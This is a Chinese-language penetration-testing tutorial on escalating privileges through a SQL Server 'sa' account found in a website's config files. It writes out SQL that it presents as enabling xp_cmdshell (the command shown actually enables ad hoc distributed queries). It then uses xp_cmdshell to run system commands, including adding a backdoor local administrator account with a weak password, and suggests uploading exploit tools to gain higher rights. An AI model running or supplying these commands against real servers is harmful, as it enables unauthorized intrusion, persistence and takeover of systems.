 ## 1、简介

如果网站里面使用的数据库是sqlserver  那么如果找到sa的密码，利用提权脚本，执行命令，但是不一定的系统权限，还要看管理员开始安装sqlserver的权限设置。

## 2、查找帐号和密码

web.config
config.asp
conn.aspx
database.aspx

## **3、开启xp_cmdshell**

开启xp_cmdshell

```bash
Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;
```

添加用户，查看相应信息

```bash
Exec master.dbo.xp_cmdshell 'net user'
Exec master.dbo.xp_cmdshell 'net user lx 123456 /add & net localgroup administrators lx /add'
Exec master.dbo.xp_cmdshell 'systeminfo'
```

## 4、实战

http://www.demo1.com/asp.aspx

![image-20210429235408055](../acess/image-20210429235408055.png) 

密码 123456

链接mssql

![image-20210429235601707](../acess/image-20210429235601707.png) 

在sql2005以后 

![image-20210429235817740](../acess/image-20210429235817740.png) 

查看当前权限

![image-20210430000038700](C:/Users/wzxmt/AppData/Roaming/Typora/typora-user-images/image-20210430000038700.png) 

查看当前权限也是一个普通用户。可以执行一些基础的命令，可以上传溢出提权工具 再来提高当前用户的权限。

有些时候  是一个系统权限  主要还是要看目标管理员在开始安装sqlserver的时候给的是什么样的权限。